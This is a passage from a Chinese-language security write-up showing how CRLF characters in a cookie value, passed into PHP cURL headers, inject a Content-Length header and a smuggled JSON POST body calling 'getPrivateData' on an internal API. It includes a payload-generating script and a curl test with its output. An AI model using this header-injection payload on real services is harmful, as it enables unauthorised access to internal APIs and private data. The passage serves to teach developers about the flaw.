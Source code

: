 如果一切顺利，内部API应完全忽略合法传入的JSONPOST数据，我们的恶意JSON得以利用。

为了让我轻松一些，我更愿意写一些小脚本来生成这些类型的payloads; 它减少了我犯错误的机会，并能够让我专注的弄明白错误的原因。 这是我写的一个小脚本：

```
tom@slim:~ cat gencookie.php 
&lt;?php
$postData = '`{`"method": "getPrivateData", "params": []`}`';
$length = strlen($postData);
$payload = "ignore\r\nContent-Length: `{`$length`}`\r\n\r\n`{`$postData`}`";
echo "trialGroups=".urlencode($payload);
tom@slim:~ php gencookie.php 
trialGroups=ignore%0D%0AContent-Length%3A+42%0D%0A%0D%0A%7B%22method%22%3A+%22getPrivateData%22%2C+%22params%22%3A+%5B%5D%7D
```

试一试：

```
tom@slim:~ curl -s localhost:1234 -b $(php gencookie.php) 
`{`
  "args": `{``}`, 
  "data": "`{`\"method\": \"getPrivateData\", \"params\": []`}`", 
  "files": `{``}`, 
  "form": `{``}`, 
  "headers": `{`
    "Accept": "*/*", 
    "Connection": "close", 
    "Content-Length": "42", 
    "Content-Type": "application/json", 
    "Host": "httpbin.org", 
    "X-Trial-Groups": "ignore"
  `}`, 
  "json": `{`
    "method": "getPrivateData", 
    "params": []
  `}`, 
  "origin": "X.X.X.X", 
  "url": "http://httpbin.org/post"
`}`
```

成功了！ 我们将x-Trial-Groups设置为忽略标头，注入Content-Length标头和我们自己的POST数据。 我们的POST数据可以合法发送，但服务器完全忽略了:)

这种类型的bug在做黑盒测试时不太可能被发现，但我认为它仍然值得让我写出来，因为现在有很多开源代码正在被使用，教育一下那些正在用可被攻击载体写代码的人总是有好处的，因为他们可能真的不知道这些载体可被攻击。



## 其他载体

自从发现这个bug以来，我一直试着留意类似的情况。 在我的研究中，我发现CURLOPT_HTTPHEADER并不是唯一容易遭受同样攻击的cURL选项。 以下选项（可能还有其他选项！）会在请求中隐式设置标头，并且容易受到攻击：

```
CURLOPT_HEADER
```

